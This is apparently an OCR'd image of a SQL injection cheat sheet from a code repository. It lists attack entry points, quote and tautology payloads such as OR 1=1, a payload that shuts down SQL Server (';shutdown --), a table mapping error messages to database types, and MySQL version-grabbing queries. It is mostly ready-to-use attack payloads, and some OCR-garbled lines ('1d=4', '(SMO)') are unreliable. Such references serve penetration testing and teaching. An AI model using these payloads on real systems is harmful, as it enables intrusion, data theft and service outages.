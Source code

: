 ***SQL INJECTION CHEAT SHEET***
***Reconnaissance and entry points for SQL Injection***

**1. Common vulnerability entry points for SQLi**
Identify entry points using tools like **burp, nmap, dirb, nikto, google dorks
  login forms
  search fields
  URL parameters (?id=1)
  HTTP headers (User-Agent, Referrer)
  cookies
  file upload forms

**2. Check for input validation**
Try basic payloads (', ", ;, --, '), ")to see application response to Look for error messages, unexpected behaviors or delays that may indicate SQLi vulnerability

**3. Test**
To check if SQL injection is possible
Try injecting into a parameter eg: product.asp?1d=4 (SMO) (NUMERIC)
  product.asp?id=5-1 (returns the result id=4)
  product.asp?id=4 OR 1=1
Trying to inject into product.asp?name=Book **(STRING)**
  product.asp?name=Bo'%2b'ok
  product.asp?name=Bo' || 'ok (only MO)
  product.asp?name=Book' OR 'x'='x

***Type of Database in use:***
Shutting down SQL Server
  ';shutdown --

inject error inducing payloads:
  '
  "
  ')
  ")
  OR 1=1
  ' AND 1=CONVERT(int, 'a')-- -- For MSSQL

| Error Fragment                         | Likely DBMS         |
| -------------------------------------- | ------------------- |
| You have an error in your SQL syntax   | MySQL               |
| unclosed quotation mark                | MSSQL               |
| ORA-00933 or ORA-00921                 | Oracle              |
| syntax error at or near                | PostgreSQL          |
| SQLite3::SQLException                  | SQLite              |
| MongoError or Unexpected token $       | MongoDB / NoSQL     |

***Database Banner grabbing***
MySQL:  SELECT @@version;
        SELECT version();
        INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)
